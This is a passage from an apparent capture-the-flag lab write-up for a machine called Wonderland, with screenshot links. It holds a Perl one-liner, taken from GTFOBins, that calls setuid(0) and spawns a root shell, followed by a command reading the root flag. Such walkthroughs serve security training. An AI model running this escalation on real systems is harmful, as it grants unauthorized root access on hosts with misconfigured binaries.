 ![Screenshot 2023-08-27 183042.png](Wonderland%203eba45d4cae64d18ae7dad24844366e2/Screenshot_2023-08-27_183042.png)

We checked the path of Perl using which command and then ran the shell command that we got from the gtfobin to get the root. Now that we have the root shell, we can read the root flag that was located inside the Alice user’s home directory.

```bash
which perl
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
id
cat /home/alice/root.txt
```

![Screenshot 2023-08-27 183533.png](Wonderland%203eba45d4cae64d18ae7dad24844366e2/Screenshot_2023-08-27_183533.png)